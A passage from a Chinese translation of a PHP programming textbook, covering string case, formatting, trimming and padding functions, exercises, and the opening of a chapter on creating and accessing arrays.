```
$myString = "Hello, world!";
echo strtolower( $myString ); // Displays 'hello, world!'
```

同样，你可以使用 strtoupper() 将字符串转换为全大写：

```
$myString = "Hello, world!";
echo strtoupper( $myString ); // Displays 'HELLO, WORLD!'
```

ucfirst() 只将字符串的首字母转换为大写：

```
$myString = "hello, world!";
echo ucfirst( $myString ); // Displays 'Hello, world!'
```

lcfirst() —— 在 PHP 5.3 中引入 —— 将字符串的首字母转换为小写：

```
$myString = "Hello, World!";
echo lcfirst( $myString ); // Displays 'hello, World!'
```

最后，ucwords() 将字符串中每个单词的首字母转换为大写：

```
$myString = "hello, world!";
echo ucwords( $myString ); // Displays 'Hello, World!'
```

说到大小写，本章前面介绍的大多数搜索和替换函数都区分大小写。这意味着它们只匹配大小写相同的字母。例如：

```
$myString = "Hello, world!";

// Displays "Not found"
if ( strstr( $myString, "hello" ) )
    echo "Found";
else
    echo "Not found";
```

然而，PHP 包含许多字符串函数的不区分大小写版本，这意味着即使字符串的大小写不匹配，它们也能正常工作。例如，strstr() 的不区分大小写版本名为 stristr()：

```
$myString = "Hello, world!";

// Displays "Found"
if ( stristr( $myString, "hello" ) )
    echo "Found";
else
    echo "Not found";
```

以下是不区分大小写的字符串函数列表：

| 函数 | 不区分大小写的等效函数 |
| --- | --- |
| strstr() | stristr() |
| strpos() | stripos() |
| strrpos() | strripos() |
| str_replace() | str_ireplace() |

## 格式化字符串

通常，脚本中字符串的内部表示对使用脚本的人来说可能相当丑陋或难以阅读。例如，“$143,834.12” 比 “143834.12” 更易于理解。幸运的是，PHP 提供了许多函数，可用以更符合人类阅读习惯的方式格式化字符串。本节将探讨 PHP 中一些更常见的字符串格式化函数。

## 使用 printf() 和 sprintf() 进行通用格式化

printf() 及其亲密的兄弟 sprintf() 是非常强大的函数，可用于以多种不同的方式格式化字符串。printf() 接受一个名为格式字符串的字符串参数，后面通常跟一个或多个包含要格式化的字符串的附加参数。然后它输出结果。

格式字符串包含与一个或多个转换规范混合在一起的普通文本。每个转换规范都需要向 printf() 传递一个附加参数，它按要求格式化该参数并将其插入到格式字符串中。然后显示生成的格式化字符串。转换规范总是以百分号 (%) 符号开头。

乍一看这可能有点复杂，因此这里有一个简单的示例来阐明这一点：

```
// Displays "Pi rounded to a whole number is: 3"
printf( "Pi rounded to a whole number is: %d", M_PI );
```

在此示例中，“Pi rounded to a whole number is: %d”是格式字符串，字符串中的“%d”是转换规范。在这种情况下，转换规范告诉 printf() 读取一个附加参数，并将其格式化为整数十进制数后插入到格式字符串中。附加参数是 PHP 常量 M_PI，它表示圆周率 pi 的近似值（默认小数位数为 14）。因此，该函数调用的净结果是打印格式字符串，其中“%d”被替换为圆周率取整后的值。

下面是另一个使用多个转换规范的示例：

```
// Displays "2 times 3 is 6."
printf( "%d times %d is %d.", 2, 3, 2*3 );
```

这段代码在输出字符串中显示三个十进制数字：2、3 以及表达式 2*3 的结果。

## 使用类型说明符

转换规范中的 `d`（即 "%d"）称为类型说明符；它告诉 `printf()` 将参数格式化为十进制整数。你可以使用不同的类型说明符以其他方式进行格式化，如下所示：

| 类型说明符 | 含义 |
| --- | --- |
| b | 将参数视为整数并将其格式化为二进制数。 |
| c | 将参数视为整数并将其格式化为具有该 ASCII 值的字符。 |
| d | 将参数视为整数并将其格式化为带符号的十进制数。 |
| e | 将参数格式化为科学计数法（例如，3.45e+2）。 |
| f | 将参数格式化为浮点数，并考虑当前的区域设置（例如，许多欧洲区域设置使用逗号作为小数点，而不是句号）。 |
| F | 将参数格式化为浮点数，忽略区域设置。 |
| o | 将参数视为整数并将其格式化为八进制数。 |
| s | 将参数格式化为字符串。 |
| u | 将参数视为整数并将其格式化为无符号十进制数。 |
| x | 将参数视为整数并将其格式化为小写十六进制数。 |
| X | 将参数视为整数并将其格式化为大写十六进制数。 |
| % | 显示文字百分号 (%) 符号。这不需要参数。 |

下面是一个示例脚本，它使用不同的类型说明符显示相同的参数——数字 123.45：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Type Specifiers in Action</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Type Specifiers in Action</h1>
```


```php
<?php
$myNumber = 123.45;
printf( "Binary: %b<br/>", $myNumber );
printf( "Character: %c<br/>", $myNumber );
printf( "Decimal: %d<br/>", $myNumber );
printf( "Scientific: %e<br/>", $myNumber );
printf( "Float: %f<br/>", $myNumber );
printf( "Octal: %o<br/>", $myNumber );
printf( "String: %s<br/>", $myNumber );
printf( "Hex (lower case): %x<br/>", $myNumber );
printf( "Hex (upper case): %X<br/>", $myNumber );
?>
</body>
</html>
```

可以在图 5-3 中查看结果。



图 5-3

## 指定符号

默认情况下，printf() 在负数前面显示减号（ - ），但不会在正数前面显示加号（ + ）。要更改 printf() 的行为，使其始终显示符号，请在类型说明符前面使用符号说明符 +。示例如下：

```php
printf( "%d<br/>", 123 ); // Displays "123"
printf( "%d<br/>", -123 ); // Displays "-123"
printf( "%+d<br/>", 123 ); // Displays "+123"
printf( "%+d<br/>", -123 ); // Displays "-123"
```

## 填充输出

您可以在格式化参数的左侧（默认）或右侧添加字符，以将其填充到固定宽度。如果您想在数字前添加前导零，或通过空格填充来水平对齐多个字符串，这非常有用。

要添加填充，请在转换说明中插入一个 _填充说明符_，位于类型说明符之前。填充说明符由一个零（用零填充）或空格字符（用空格填充）组成，后跟要将结果填充到的字符数。`printf()` 然后根据需要添加尽可能多的零或空格，以使结果达到正确宽度。

例如，以下代码显示各种数字，必要时使用前导零，以确保结果始终为六位长度：

```
printf( "%06d<br/>", 123 ); // Displays "000123"
printf( "%06d<br/>", 4567 ); // Displays "004567"
printf( "%06d<br/>", 123456 ); // Displays "123456"
```

填充说明符可以在需要的地方添加字符，但它永远不会截断输出。因此 `printf( "%06d", 12345678 )` 显示 "12345678"，而不是 "345678"。

此示例使用前导空格填充各种字符串，以确保它们右对齐：

```
print "<pre>";
printf( "% 15s\n", "Hi" );
printf( "% 15s\n", "Hello" );
printf( "% 15s\n", "Hello, world!" );
print "</pre>";
```

结果如下：

```
Hi
Hello
Hello, world!
```

您也可以省略零或空格，只指定一个数字，在这种情况下，`printf()` 将使用空格进行填充。

您不仅限于零和空格。要使用您自己的填充字符，请插入一个撇号（ ' ），后跟字符，而不是零或空格：

```
printf( "%'#8s", "Hi" ); // Displays "######Hi"
```

如果您想在右侧而不是左侧添加填充——即结果左对齐而不是右对齐——请在填充字符和宽度说明符之间添加减号（ - ）符号：

```
printf( "%'-#8s", "Hi" ); // Displays "Hi######"
```

当使用 `f` 或 `F` 显示浮点数时，填充行为会有所不同。有关更多详细信息，请参阅“指定数字精度”。

## 指定数字精度

使用 `f` 或 `F` 类型说明符显示浮点数时，可以使用 _精度说明符_ 来指示将数字四舍五入到多少位小数。要添加精度说明符，请在类型说明符之前插入一个句点（ `.` ），后跟要使用的小数位数：

```
printf( "%f<br />", 123.4567 ); // Displays "123.456700" (default precision)
printf( "%.2f<br />", 123.4567 ); // Displays "123.46"
printf( "%.0f<br />", 123.4567 ); // Displays "123"
printf( "%.10f<br />", 123.4567 ); // Displays "123.4567000000"
```

您可以将填充说明符与精度说明符一起使用，在这种情况下，整个数字将被填充到所需长度（包括小数点后的数字以及小数点本身）：

```
echo "<pre>";
printf( "%.2f<br />", 123.4567 ); // Displays "123.46"
printf( "%012.2f<br />", 123.4567 ); // Displays "000000123.46"
printf( "%12.4f<br />", 123.4567 ); // Displays " 123.4567"
echo "</pre>";
```

顺便说一句，如果在格式化字符串时使用精度说明符，`printf()` 会将字符串截断为那么多字符：

```
printf( "%.8s\n", "Hello, world!" ); // Displays "Hello, w"
```

## 交换参数

您可能已经注意到，传递给 `printf()` 的其他参数的顺序必须与格式字符串中的转换说明的顺序匹配。通常这不是问题，但偶尔您可能需要更改转换说明的顺序，却无法更改参数的顺序。

例如，假设您的格式字符串存储在单独的文本文件中，而不是嵌入在 PHP 代码中。如果您想更改脚本显示输出的方式（例如，如果您正在为应用程序创建不同的“皮肤”，或者正在创建英文、法文和德文版本的应用程序），这很方便。假设以下格式字符串保存在名为 `template.txt` 的文件中：

```
You have %d messages in your %s, of which %d are unread.
```

您的 PHP 代码可能会使用此 `template.txt` 文件向用户显示消息，如下所示（在真实世界的 PHP 应用程序中，`$mailbox`、`$totalMessages` 和 `$unreadMessages` 值可能会从数据库中获取）：

```
$mailbox = "Inbox";
$totalMessages = 36;
$unreadMessages = 4;
printf( file_get_contents( "template.txt" ), $totalMessages, $mailbox,
$unreadMessages );
```

这段代码将显示以下消息：

```
You have 36 messages in your Inbox, of which 4 are unread.
```

如果你想知道，file_get_contents() 会读取文件并将其内容作为字符串返回。
您将在第 11 章中详细了解它。

现在，假设您正在为不同市场为您的应用程序“换肤”，并想改用以下 template.txt 文件而不是：

```
Your %s contains %d unread messages, and %d messages in total.
```

格式字符串包含相同的转换说明，但顺序不同。这将导致以下消息，显然是胡说八道：

```
Your 36 contains 0 unread messages, and 4 messages in total.
```

通常，解决此问题的唯一方法是更改 PHP 代码中参数的顺序以匹配，如果您只是换肤，这太过繁琐。

这时参数交换就派上用场了。使用此技术，您可以指定每个转换说明引用哪个参数。其工作原理如下：在每个百分号（ % ）符号之后，添加要引用的参数的位置（1 是格式字符串之后的第一个参数，2 是第二个参数，依此类推），后跟美元符号（ $ ）。因此，您可以编辑 template.txt 文件，并将格式字符串更改为以下内容：

```
Your %2$s contains %3$d unread messages, and %1$d messages in total.
```

现在，尽管您没有动过 PHP 脚本，消息会正确显示：

```
Your Inbox contains 4 unread messages, and 36 messages in total.
```

## 存储结果而不是打印它

printf() 很好，但如果您想将结果存储在变量中以供以后使用呢？您在创建字符串时可能还没准备好显示它。这时 sprintf() 函数就很有用了。sprintf() 的行为与 printf() 完全相同，区别在于它返回生成的字符串而不是打印它。例如：

```php
<?php
$username = "Matt";
$mailbox = "Inbox";
$totalMessages = 36;
$unreadMessages = 4;
$messageCount = sprintf( file_get_contents( "template.txt" ), $totalMessages,
$mailbox, $unreadMessages );
?>
```

```
<p>Welcome, <?php echo $username?>.</p>
<p class="messageCount"><?php echo $messageCount?></p>
```

printf() 的另一个变体是 fprintf()，它将生成的字符串写入打开的文件。要使用它，请传递文件句柄，然后是格式字符串，然后是其余参数。有关文件和文件句柄的更多信息，请参见第 11 章。


## 使用 trim()、ltrim() 和 rtrim() 修剪字符串

你经常需要处理来自外部来源的文本，例如 HTML 表单字段或文本文件。在这种情况下，文本开头或结尾（或两者）通常包含不需要的空白字符。例如，用户可能会在文本区域字段中在文本前后添加换行符，或者文本文件可能包含用于每行开头填充的制表符。

空白字符通常对人类来说不是问题，但可能会导致期望字符串具有特定长度或试图将一个字符串与另一个字符串进行比较的脚本出现混乱。幸运的是，PHP 提供了三个有用的函数来从字符串中删除不必要的空白字符：

- trim() 删除字符串开头和结尾的空白字符
- ltrim() 仅删除字符串开头的空白字符
- rtrim() 仅删除字符串结尾的空白字符

请注意，这些函数仅修剪文本前或后的空白字符；文本本身中的任何空白字符均保持不变。

这三个函数的工作方式相同——它们将要修剪的字符串作为参数，并返回修剪后的字符串：

```
$myString = "  What a lot of space!  ";
echo "<pre>";
echo "|" . trim( $myString ) . "|\n"; // Displays "|What a lot of space!|"
echo "|" . ltrim( $myString ) . "|\n"; // Displays "|What a lot of space! |"
echo "|" . rtrim( $myString ) . "|\n"; // Displays "| What a lot of space!|";
echo "</pre>";
```

你还可以指定一个可选的第二个参数：要作为空白字符处理的字符串。然后函数会从字符串中删除这些字符中的任何一个，而不是使用默认的空白字符——顺便说一下，默认字符为 " "（空格）、"\t"（制表符）、"\n"（换行符）、"\r"（回车符）、"\0"（空字节）和 "\v"（垂直制表符）。你还可以使用 ".." 来指定字符范围（例如 "1..5" 或 "a..z"）。下面是一个示例，用于从每行诗行的开头删除行号、冒号和空格：

```
$milton1 = "1: The mind is its own place, and in it self\n";
$milton2 = "2: Can make a Heav'n of Hell, a Hell of Heav'n.\n";
$milton3 = "3: What matter where, if I be still the same.\n";

echo "<pre>";
echo ltrim( $milton1, "0..9: " );
echo ltrim( $milton2, "0..9: " );
echo ltrim( $milton3, "0..9: " );
echo "</pre>";
```

这段代码显示：

```
The mind is its own place, and in it self
Can make a Heav'n of Hell, a Hell of Heav'n.
What matter where, if I be still the same,
```

## 使用 str_pad() 填充字符串

你已经了解如何使用 `printf()` 在字符串开头或结尾添加填充。但是，PHP 提供了一个专用函数 `str_pad()`，它比 `printf()` 方法更灵活且更易于使用。

要使用 `str_pad()`，请传递要填充的字符串和最终字符串的所需宽度。该函数返回使用空格字符（默认情况下）在右侧填充的字符串：

```php
echo '<pre>';
echo str_pad( "Hello, world!", 20 ); // Displays "Hello, world!   "
echo '</pre>';
```

要使用非空格字符进行填充，请传递一个字符串作为可选的第三个参数。请注意，这可以是单个字符或一串字符；在后一种情况下，该字符串会根据需要重复以填充输入字符串：

```php
// Displays "Hello, world!*********"
echo str_pad( "Hello, world!", 20, "*" ) . "\n";
// Displays "Hello, world!1231231"
echo str_pad( "Hello, world!", 20, "123" ) . "\n";
```

你还可以让 `str_pad()` 在字符串左侧或左右两侧添加填充。为此，请传递一个可选的第四个参数，包含以下内置常量之一：

- `STR_PAD_RIGHT` 在字符串右侧填充（默认设置），左对齐字符串
- `STR_PAD_LEFT` 在字符串左侧填充，右对齐字符串
- `STR_PAD_BOTH` 在字符串左右两侧填充，尽可能使结果居中

以下示例在字符串的左侧和右侧都添加填充：

```php
// Displays "***Hello, world!***"
echo str_pad( "Hello, world!", 20, "**", STR_PAD_BOTH ) . "\n";
```

## 使用 wordwrap() 换行文本

有时你需要向用户显示大量文本，例如在网页或电子邮件消息中。如果脚本将文本作为一行长文本接收——这可能是由于用户输入，也可能是由于特定数据库表中文本的格式化方式——那么你可能希望将文本拆分为单独的行，以便更易于阅读。

PHP 的 `wordwrap()` 函数接受单行文本字符串，并使用换行符（`\n`）将其拆分为多行，在单词末尾处换行以避免拆分单词。要使用它，请传递要换行的字符串，该函数将返回换行后的字符串：

```
$myString = "But think not that this famous town has only harpooneers, cannibals, and bumpkins to show her visitors. Not at all. Still New Bedford is a queer place. Had it not been for us whalemen, that tract of land would this day perhaps have been in as howling condition as the coast of Labrador.";
echo "<pre>";
echo wordwrap( $myString );
echo "</pre>";
```

这段代码显示以下输出：

不要以为这个著名的小镇只有捕鲸手、食人族和乡巴佬可以展示给游客看。绝非如此。新贝德福德仍然是一个奇特的地方。要不是因为我们这些捕鲸者，这片土地今天或许还和拉布拉多海岸一样处于荒凉的状态。

默认情况下，wordwrap() 确保每行不超过 75 个字符，但你可以通过传递可选的第二个参数来更改这一点：

```
$myString = "But think not that this famous town has only harpooneers, cannibals, and bumpkins to show her visitors. Not at all. Still New Bedford is a queer place. Had it not been for us whalemen, that tract of land would this day perhaps have been in as howling condition as the coast of Labrador.";
echo "<pre>";
echo wordwrap ( $myString, 40 );
echo "</pre>";
```

结果如下：

不要以为这个著名的小镇只有捕鲸手、食人族和乡巴佬可以展示给游客看。绝非如此。新贝德福德仍然是一个奇特的地方。要不是因为我们这些捕鲸者，这片土地今天或许还和拉布拉多海岸一样处于荒凉的状态。

如果你希望使用不同于换行符的字符或字符串来拆分行，请将要使用的字符作为可选的第三个参数传递。例如，使用 HTML 换行符元素 <br /> 拆分行时，示例脚本不再需要将输出包裹在 <pre>...</pre> 标签中：

```
$myString = "But think not that this famous town has only harpooneers, cannibals, and bumpkins to show her visitors. Not at all. Still New Bedford is a queer place. Had it not been for us whalemen, that tract of land would this day perhaps have been in as howling condition as the coast of Labrador.";
echo wordwrap ( $myString, 40, "<br />" );
```

顺便说一下，如果你想将字符串中的换行符转换为 HTML `<br />` 元素，可以使用 PHP 的 `nl2br()` 函数。它接受要转换的字符串作为参数，并返回将所有换行符转换为 `<br />` 的字符串。

你还可以向 `wordwrap()` 传递可选的第四个参数。如果该参数为 `true`（默认值为 `false`），则函数始终将字符串换行到指定的行宽，即使这意味着拆分比行宽更长的单词也是如此。下面是一个示例：

```
$myString = "This string has averylongwordindeed.";

echo wordwrap ( $myString, 10, "<br />" );
echo "<br /><br />";
echo wordwrap ( $myString, 10, "<br />", true );
```

这段代码输出如下：

```
This
string has
averylongwordindeed.

This
string has
averylongw
ordindeed.
```

## 使用 number_format() 格式化数字

PHP 的 `number_format()` 函数提供了一种方便的方式来格式化数字，使其易于阅读，带有千位分隔符并四舍五入到指定的小数位数。在最基本的形式中，你只需将要格式化的数字作为单个参数传递，该函数将返回格式化后的字符串：

```
echo number_format( 1234567.89 ); // Displays "1,234,568"
```

请注意，这会四舍五入到最接近的整数。如果你希望包含一些小数位数，请将位数作为第二个可选参数指定：

```
echo number_format( 1234567.89, 1 ); // Displays "1,234,567.9"
```

最后，你可以通过传递两个额外的可选参数来更改用于小数点和千位分隔符的字符。例如，以下代码使用法国惯例（逗号作为小数点，空格作为千位分隔符）来格式化数字：

```
echo number_format( 1234567.89, 2, ",", " " ); // Displays "1 234 567,89"
```

你可以为这两个参数中的任意一个传递空字符串，因此如果需要，可以格式化不带千位分隔符的数字：

```
echo number_format( 1234567.89, 2, ".", "" ); // Displays "1234567.89"
```


PHP 还提供另一个方便的函数，`money_format()`，你可以使用它根据各种货币惯例格式化货币值，其语法与 `printf()` 类似。唯一的缺点是它在 Windows 平台上不可用（至少在撰写本文时是如此）。有关更多详细信息，请参见 `http://www.php.net/money_format`。

## 摘要

在本章中，你探索了 PHP 中的字符串，并了解了可用于操作字符串的一些函数。你学习了如何在 PHP 代码中使用单引号和双引号以及 heredoc 和 nowdoc 语法创建字符串字面量。你还学习了如何查找字符串的长度、统计字符串中的单词数量、访问字符串中的单个字符以及访问字符串中的字符组。

接着，你学习了用于搜索字符串和替换字符串中文本的各种函数，包括：

- strstr()、strpos() 和 strrpos()：用于搜索文本
- substr_count()：用于计算字符串中搜索词出现的次数
- strpbrk()：用于搜索字符集中的任意一个字符
- str_replace()：用于替换字符串中搜索词的所有出现
- substr_replace()：用于替换字符串的指定部分
- strtr()：用于将字符串中的某些字符替换为其他字符

接着，你学习了关于大小写敏感性的问题，并探索了几个可用于转换大小写的函数 — strtolower()、strtoupper()、ucfirst()、lcfirst() 和 ucwords()。

最后，你学习了 PHP 的 printf() 和 sprintf() 函数，可以用它们以多种方式格式化字符串，还了解了一些其他字符串格式化函数，例如 trim()、ltrim()、rtrim()、str_pad()、wordwrap() 和 number_format()。

现在你对 PHP 中字符串的工作原理有了相当不错的了解，并且了解了 PHP 提供的一些更重要的字符串操作函数。但是，正如本章开头所提到的，PHP 具有比此处列出的更多与字符串相关的函数。有关完整列表，请参阅 http://www.php.net/manual/en/ref.strings.php 上的 PHP 手册。

在下一章中，你将探索另一个重要的 PHP 语言概念：数组。不过，在离开本章之前，你可能会发现完成以下两个练习来测试你对字符串的了解很有帮助。你可以在附录 A 中找到这些练习的解答。

## 练习

1. 使用 printf() 函数，编写一行代码，接收一个月份（1 到 12）、一个日期（1 到 31）和一个四位年份，并显示格式化为 mm/dd/yyyy 格式的结果日期。如果月份或日期小于 10，请不要忘记在其前面加零。

2. 编写一个脚本来模拟函数调用 str_pad( $myString, $desiredLength)。换句话说，获取一个字符串，并在其右侧添加空格字符，直到字符串达到所需长度。在页面中显示原始字符串和填充后的字符串。

## 数组

在第 3 章中，你学习了 PHP 中的变量；特别是，你学习了变量是一个可以存储单个值的容器。但是，有几种类型的变量可以在单个变量中一次存储多个值。其中一种类型是对象，你将在第 8 章中了解它；另一种类型是数组，你将在本章中探索它。

数组是任何编程语言中非常强大的功能，因为它们让你可以轻松处理大量相似数据。例如，假设你正在编写一个脚本来存储 100 个客户的信息。与其创建 100 个单独的变量（如 $customer1、$customer2 等）来存储客户，不如创建一个名为 $customers 的数组变量，一次性保存所有客户的信息。

数组的两个特定特性使其非常适合存储大量数据：

- 数组的长度可以是任意的 — 数组可以存储一个值，也可以存储数百万个值，所有值均通过单个变量名（例如 $customers）引用。此外，你可以随时轻松更改长度（通过添加或删除值）。
- 可以一次轻松操作数组中的所有值 — 例如，你可以遍历数组中的所有值，在遍历过程中读取或更改它们。你可以轻松地按任意顺序对数组进行排序。你可以在数组中搜索值，合并两个数组，以及更多操作。

在本章中，你将：

- 了解 PHP 数组的工作原理
- 了解创建数组的不同方法
- 发现如何访问数组的元素
- 了解如何使用循环（你在 第 4 章 中学习过）来遍历数组的所有元素
- 了解多维数组，它允许你创建丰富、复杂的数据结构
- 探索 PHP 的一些强大数组操作函数，以执行对数组进行排序和合并等操作

### 数组结构

在深入创建和使用数组之前，花点时间更详细地探索数组的概念是有价值的。

如前所述，数组是一个可以一次存储多个值的单个变量。你可以将数组视为值的列表。数组中的每个值都称为一个 _元素_，每个元素都由其自己的 _索引_ 引用，该索引对于该数组是唯一的。要访问元素的值（无论你是创建、读取、写入还是删除元素），都要使用该元素的索引。从这个意义上说，数组与你在上一章中学习的字符串有一些相似之处。就像你可以通过索引访问字符串的任何字符一样，你可以使用元素的索引访问数组的任何元素。

许多现代编程语言（包括 PHP）都支持两种类型的数组：

- **索引数组** — 这些是每个元素通过数字索引引用的数组，通常从零开始。例如，第一个元素的索引为 0，第二个元素的索引为 1，依此类推
- **关联数组** — 这种数组也称为哈希或映射。使用关联数组时，每个元素都通过字符串索引引用。例如，你可以创建一个表示客户年龄的数组元素，并为其指定索引 "age"

虽然 PHP 允许你创建和操作索引数组和关联数组，但所有 PHP 数组在幕后实际上都是同一种类型。这有时很有用；例如，你可以在同一数组中混合数字和字符串索引，或者将索引数组当作关联数组来处理。然而，在实际中，你通常希望使用一种或另一种数组类型，将索引数组和关联数组视为不同类型的数组是有帮助的。

> 数组索引通常称为键。通常，数字索引称为索引，字符串索引称为键；然而，对此并没有硬性规定。你将在本书及其他地方看到这两个术语被互换使用。

存储在数组元素中的实际值可以是任何类型，并且你可以在单个数组中混合类型。例如，数组可能将字符串作为其第一个元素，将浮点数作为其第二个元素，将布尔值作为其第三个元素。

### 创建数组

尽管功能强大，但 PHP 中的数组很容易创建。创建新数组变量的最简单方法是使用 PHP 的内置 `array()` 结构。它接受一个值列表并创建一个包含这些值的数组，然后你可以将其分配给一个变量：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
```

在这行代码中，创建了一个包含四个元素的数组，每个元素都包含一个字符串值。
然后将该数组分配给变量 $authors。现在，你可以通过单个变量名 $authors 访问数组中的任何元素，稍后你将看到这一点。

此数组是一个索引数组，这意味着数组中的每个元素都通过其自身的数字索引来访问，从零开始。在这种情况下，"Steinbeck" 元素的索引为 0，"Kafka" 的索引为 1，"Tolkien" 的索引为 2，"Dickens" 的索引为 3。

如果你想创建一个关联数组，其中每个元素是通过字符串索引而非数字来标识的，则需要使用 => 运算符，如下所示：

```
$myBook = array( "title" => "The Grapes of Wrath",
 "author" => "John Steinbeck",
 "pubYear" => 1939 );
```

这将创建一个包含三个元素的数组："The Grapes of Wrath"（其索引为 "title"）；"John Steinbeck"（其索引为 "author"）；以及 1939（其索引为 "pubYear"）。

*许多 PHP 内置函数也会创建数组。例如，将在第 11 章中介绍的 file() 会将整个文件读入数组，每行一个元素。*

### 访问数组元素

创建数组后，如何访问其中的单个值？实际上，你的做法与访问字符串中的单个字符非常相似：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$myAuthor = $authors[0]; // $myAuthor contains "Steinbeck"
$anotherAuthor = $authors[1]; // $anotherAuthor contains "Kafka"
```

换句话说，你需要写出变量名，后跟方括号中的元素索引。如果要访问关联数组的元素，只需使用字符串索引而非数字：

```
$myBook = array( "title" => "The Grapes of Wrath",
 "author" => "John Steinbeck",
 "pubYear" => 1939 );
```

```
$myTitle = $myBook["title"]; // $myTitle contains "The Grapes of Wrath"
$myAuthor = $myBook["author"]; // $myAuthor contains "Steinbeck"
```

你不必在方括号中使用文字值；可以使用任何表达式，只要其求结果为适当的整数或字符串即可：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$pos = 2;
echo $authors[$pos + 1]; // Displays "Dickens"
```


## 更改元素

与访问数组值一样，您也可以使用相同的技术来更改值。将数组元素视为独立的变量会很有帮助；您可以随意创建、读取和写入其值。

例如，以下代码将索引数组中第三个元素的值从 "Tolkien" 更改为 "Melville"：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$authors[2] = "Melville";
```

如果您想添加第五位作者，可以简单地创建一个索引为 4 的新元素，如下所示：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$authors[4] = "Orwell";
```

向数组添加新元素还有更简单的方法——只需使用不带索引的方括号即可：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$authors[] = "Orwell";
```

执行此操作时，PHP 知道您想在数组末尾添加新元素，并会自动将下一个可用索引（在此例中为 4）分配给该元素。

实际上，您可以通过使用方括号语法创建元素来从头开始创建数组。以下三个示例都会生成完全相同的数组：

```
// Creating an array using the array() construct
$authors1 = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );

// Creating the same array using [] and numeric indices
$authors2[0] = "Steinbeck";
$authors2[1] = "Kafka";
$authors2[2] = "Tolkien";
$authors2[3] = "Dickens";

// Creating the same array using the empty [] syntax
$authors3[] = "Steinbeck";
$authors3[] = "Kafka";
$authors3[] = "Tolkien";
$authors3[] = "Dickens";
```

然而，与普通变量一样，您应首先确保数组已正确初始化。在第二和第三个示例中，如果 $authors2 或 $authors3 数组变量已存在并包含其他元素，最终数组可能包含的不只是您分配的那四个元素。如有疑问，请在首次创建数组变量时始终对其进行初始化，即使当时您没有创建任何数组元素。您可以通过将 `array()` 构造与空列表一起使用来轻松实现此操作：

```
$authors = array();
```

这将创建一个不带元素的数组（空数组）。您可以稍后继续添加元素：

```
$authors[] = "Steinbeck";
$authors[] = "Kafka";
$authors[] = "Tolkien";
$authors[] = "Dickens";
```

您也可以使用方括号语法添加和更改关联数组的元素。以下示例以两种方式填充关联数组：首先使用 `array()` 构造，然后使用方括号语法：

```
// Creating an associative array using the array() construct
$myBook = array( "title" => "The Grapes of Wrath",
    "author" => "John Steinbeck",
    "pubYear" => 1939 );

// Creating the same array using [] syntax
$myBook = array();
$myBook["title"] = "The Grapes of Wrath";
$myBook["author"] = "John Steinbeck";
$myBook["pubYear"] = 1939;
```

更改关联数组的元素的方式与索引数组类似：

```
$myBook["title"] = "East of Eden";
$myBook["pubYear"] = 1952;
```

## 使用 print_r() 输出整个数组

数组可能会变得相当复杂，如您在本章后面将看到的，因此您通常会发现自己想要检查数组以查看其内容。您不能像处理普通变量那样使用 `print()` 或 `echo()` 直接打印数组，因为这些函数一次只能处理一个值。不过，PHP 确实提供了一个名为 `print_r()` 的函数，您可以使用它来输出数组内容以进行调试。

使用 `print_r()` 很简单——只需将要输出的数组传递给它即可：

```
print_r( $array );
```

以下示例代码创建一个索引数组和一个关联数组，然后使用 `print_r()` 在网页中同时显示这两个数组。您可以在图 6-1 中看到结果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Outputting Arrays with print_r()</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Outputting Arrays with print_r()</h1>

<?php

$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );

$myBook = array( "title" => "The Grapes of Wrath",
		"author" => "John Steinbeck",
		"pubYear" => 1939 );

echo '<h2>$authors:</h2><pre>';
print_r ( $authors );
echo '</pre><h2>$myBook:</h2><pre>';
print_r ( $myBook );
echo "</pre>";

?>

</body>
</html>
```



图 6-1

您可以看到，`print_r()` 会显示传递给它的变量的类型——数组——后跟数组中所有元素的列表，形式为 `key => value`。索引数组的键（或索引）为 0 到 3，而关联数组的键为 `title`、`author` 和 `pubYear`。

顺便说一句，该脚本将 `<pre>` 和 `</pre>` 标签包裹在 `print_r()` 的输出周围，以便您可以正确查看格式。如果没有这些标签，输出在网页中查看时将显示在单行上。

*您可以使用 `print_r()` 输出几乎任何类型的数据，而不仅仅是数组变量。例如，您可以使用它来输出对象的内容，您将在第 8 章中学习如何处理对象。*

